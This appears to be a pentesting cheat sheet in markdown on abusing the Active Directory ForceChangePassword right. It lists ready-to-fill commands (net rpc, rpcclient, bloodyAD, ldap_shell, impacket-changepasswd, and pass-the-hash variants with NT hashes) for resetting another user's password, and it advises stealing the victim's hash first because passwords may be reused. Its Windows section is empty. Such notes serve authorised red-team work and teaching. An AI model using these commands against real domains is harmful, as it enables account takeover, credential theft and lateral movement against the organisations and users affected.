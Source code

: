 # Abusing ForceChangePassword

If an user have ForceChangePassword over another user can change that user password. If you have other options to steal the hash from that user, I strongly recommend you to do it before change their password. That hash could be valid for other users if password is reused. 

### From Linux (enternally recomended):

Samba tools -> `net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'<password>' -S '<dc_ip>'`

rpcclient -> `-U <domain>/<controlled_user> <dc-ip>`

`rpcclient $> setuserinfo <target_user> 23 <new_password>`

BloodyAD -> `bloodyAD --host 'dc_ip' -d '<domain>' -u '<user>' -p '<password>' set password <target_user> '<new_password>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`set password <target_user> <new_password>`

Using SMB protocol:

`impacket-changepasswd <domain>/<target_user>@<ip> -newpass <new_password> -altuser <controlled_user>/raj -altpass <controlled_user_password> -reset`

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' set password '<target_user>' '<new_password>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

### From Windows (internally):








